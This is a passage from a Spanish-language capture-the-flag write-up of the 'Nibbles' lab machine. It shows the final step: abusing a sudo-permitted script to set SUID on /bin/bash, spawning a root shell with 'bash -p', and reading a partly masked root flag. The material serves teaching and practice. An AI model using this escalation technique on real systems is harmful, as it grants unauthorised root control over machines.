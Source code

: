 Ejecutaremos el script como usuario `sudo` debido que disponemos de dicho privilegio. Al revisar los permisos del binario `/bin/bash`, verificamos que se le han asignado correctamente los permisos de `SUID`. Una vez teniendo el binario modificado, nos convertiremos en usuario `root` y visualizaremos la flag de **root.txt**

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
adc3c5445aeee*********************
```
